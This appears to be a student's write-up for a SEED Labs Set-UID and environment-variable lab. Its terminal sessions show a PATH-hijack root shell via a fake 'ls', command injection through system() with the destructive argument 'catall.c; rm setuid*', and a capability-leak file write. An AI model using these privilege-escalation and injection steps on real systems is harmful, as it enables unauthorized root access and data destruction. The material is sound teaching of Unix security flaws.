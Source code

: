 # Answer in my observation

## Task 2
- When comment out the `printenv()` in Line 1 and uncomment  `printenv()` in Line 2. There's nothing change.

## Task 3
- The original code does not call the `/usr/bin/env` program.
- After changing the line 1 to `execve("/usr/bin/env", argv, environ);`, the program calls the `/usr/bin/env` successfully.

## Task 6
- Because the program doesn't call the specific `ls` command, we can do like this to inject the malicious code to the system.

```console
    [03/22/24]seed@VM:~/.../Labsetup$ nano cmd.c
    [03/22/24]seed@VM:~/.../Labsetup$ gcc -o cmd cmd.c
    [03/22/24]seed@VM:~/.../Labsetup$ sudo chown root cmd
    [03/22/24]seed@VM:~/.../Labsetup$ sudo chmod 4755 cmd
    [03/22/24]seed@VM:~/.../Labsetup$ cp /bin/sh ls
    [03/22/24]seed@VM:~/.../Labsetup$ ls -l
    total 924
    -rw-rw-r-- 1 seed seed    761 Dec 27  2020 cap_leak.c
    -rw-rw-r-- 1 seed seed    471 Feb 19  2021 catall.c
    -rwsr-xr-x 1 root seed  16696 Mar 22 00:05 cmd
    -rw-rw-r-- 1 seed seed     81 Mar 22 00:04 cmd.c
    -rwxr-xr-x 1 seed seed 878288 Mar 22 00:05 ls
    -rw-rw-r-- 1 seed seed    180 Mar 21 11:53 myenv.c
    -rw-rw-r-- 1 seed seed    418 Mar 21 11:34 myprintenv.c
    -rwsr-xr-x 1 root seed  16768 Mar 21 12:27 setuid
    -rw-r--r-- 1 root root    159 Mar 21 12:26 setuid.c
    [03/22/24]seed@VM:~/.../Labsetup$ pwd
    /home/seed/Env_SetUID/Labsetup
    [03/22/24]seed@VM:~/.../Labsetup$ export PATH=/home/seed/Env_SetUID/Labsetup:$PATH
    [03/22/24]seed@VM:~/.../Labsetup$ ./cmd 
    VM# id
    uid=1000(seed) gid=1000(seed) euid=0(root) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker)
    VM#
```
- Explain: 
+ The programmer only uses `ls` path to execute the `ls` command instead of using `/bin/ls` path.
+ The `PATH`, which is the environment variable, has the `/usr/bin` path that has the `ls` command.
+ Therefore we can apply this vulnerability of this Set-UID program to privilege escalation, by using file `/bin/sh` and save, rename it into `ls` as executable file. Finally, adding the path that has injected the malicious code file into the beginning of `PATH` environment variable --> OS will call the path contains the malicious file first, then it sees the fake `ls` file and execute it.

## Task 8
### When using `system()`:
- Because the `system()` invoke the shell, therefore we can abuse to run more commands by using this:

```console
    [03/22/24]seed@VM:~/.../Labsetup$ ls | grep setuid
    setuid
    setuid.c
    [03/22/24]seed@VM:~/.../Labsetup$ ./catall 'catall.c; rm setuid*' 
    #include <unistd.h>
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>

    int main(int argc, char *argv[])
    {
    char *v[3];
    char *command;

    if(argc < 2) {
        printf("Please type a file name.\n");
        return 1;
    }

    v[0] = "/bin/cat"; v[1] = argv[1]; v[2] = NULL;

    command = malloc(strlen(v[0]) + strlen(v[1]) + 2);
    sprintf(command, "%s %s", v[0], v[1]);

    // Use only one of the followings.
    system(command);
    // execve(v[0], v, NULL);

    return 0 ;
    }
    [03/22/24]seed@VM:~/.../Labsetup$ ls | grep setuid
    [03/22/24]seed@VM:~/.../Labsetup$ 
```

### When using `execve()`:
- Because `execve()` does not invoke shell, we can't abuse this to execute more commands.

```console
    [03/22/24]seed@VM:~/.../Labsetup$ ls
    cap_leak.c  cmd                ls        mylibc.o      myprog.c
    catall      cmd.c              myenv.c   myprintenv.c
    catall.c    libmylib.so.1.0.1  mylibc.c  myprog
    [03/22/24]seed@VM:~/.../Labsetup$ ./catall 'cmd.c; rm cmd*'
    /bin/cat: 'cmd.c; rm cmd*': No such file or directory
    [03/22/24]seed@VM:~/.../Labsetup$ 
```

## Task 9
- We can write to the `/etc/zzz` file by abusing the Capability Leaking, using this:

```console
    root@VM:/home/seed/Env_SetUID/Labsetup# cat /etc/zzz
    Hello, this file is created by user 'root'
    root@VM:/home/seed/Env_SetUID/Labsetup# exit
    exit
    [03/22/24]seed@VM:~/.../Labsetup$ ./cap_leak 
    fd is 3
    $ id                                                                           
    uid=1000(seed) gid=1000(seed) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker)
    $ echo 'OceanTran999' >&3                                                      
    $ cat /etc/zzz                                                                 
    Hello, this file is created by user 'root'
    OceanTran999
    $ 
```

## References:
- https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/
- https://juggernaut-sec.com/capabilities/
- https://steflan-security.com/linux-privilege-escalation-exploiting-capabilities/
- https://man7.org/linux/man-pages/man7/capabilities.7.html
- https://linux-audit.com/linux-capabilities-101/
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#linux-capabilities
